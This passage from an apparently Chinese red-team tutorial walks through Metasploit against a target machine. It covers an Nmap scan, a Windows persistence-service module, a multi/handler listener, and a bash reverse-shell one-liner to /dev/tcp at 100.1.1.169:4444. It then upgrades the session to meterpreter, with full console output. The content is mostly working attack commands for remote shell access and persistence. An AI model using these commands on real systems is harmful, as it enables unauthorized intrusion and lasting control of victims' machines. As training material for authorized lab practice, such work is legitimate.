 **3.使用 Nmap 扫描**

在 MSF 框架中可以直接使用 Nmap，输入命令`nmap -A 192.168.1.7`对靶机进行全面扫描，

### MSF 权限维持

```
use exploit/windows/local/persistence_service
```

### 攻防演练 MSF 的一些命令

#### MSF 管理 shell

手动反弹 shell

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 100.1.1.169
lhost => 100.1.1.169
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 100.1.1.169:4444
```

然后在已经拿到的靶机 shell 输入：

```
bash -i >& /dev/tcp/100.1.1.169/4444 0>&1
```

然后可以把权限修改为 meterpreter（^Z 表示 ctrl+Z）

```
root@web01:/home/mason# ^Z
Background session 1? [y/N]  y
msf6 exploit(multi/handler) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 100.1.1.169:4433
[*] Sending stage (980808 bytes) to 192.168.0.51
[*] Meterpreter session 2 opened (100.1.1.169:4433 -> 192.168.0.51:52976) at 2022-12-05 11:32:18 +0800
[*] Post module execution completed

msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 1
[*] Starting interaction with 1...

root@web01:/home/mason#
root@web01:/home/mason# ^Z
Background session 1? [y/N]  y
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```
